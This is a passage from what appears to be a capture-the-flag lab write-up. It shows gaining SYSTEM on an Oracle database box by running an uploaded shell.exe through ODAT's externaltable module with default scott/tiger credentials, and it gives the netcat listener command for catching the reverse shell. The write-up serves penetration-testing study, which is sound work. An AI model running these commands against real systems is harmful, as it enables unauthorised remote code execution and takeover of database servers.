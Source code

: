 Now we need to execute the file. We can do that using the _externaltable_ module in ODAT.

First setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, execute the file using the following command.

```text
python3 odat.py externaltable -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --exec /temp shell.exe --sysdba
```

We get a shell!

![](../images/max/834/1*M3cgHNR6Wur9aNX9TBwQjQ.png)

The database must have been running with SYSTEM privileges and so we got a shell as SYSTEM.

Grab the _user.txt_ flag.

![](../images/max/614/1*rKfcd2xVS2Aqrw_p903Yzw.png)

Grab the _root.txt_ flag.

![](../images/max/615/1*csWE8hku7mMusqOpJLROPg.png)

**Note:** IppSec has a [great video](https://www.youtube.com/watch?v=2c7SzNo9uoA) explaining how to do this manually without having to use ODAT or Metasploit. He also goes through the intended solution for the box which is much harder than the way I solved it.

## Lessons Learned <a id="a815"></a>

To get SYSTEM on this box, we exploited two vulnerabilities.
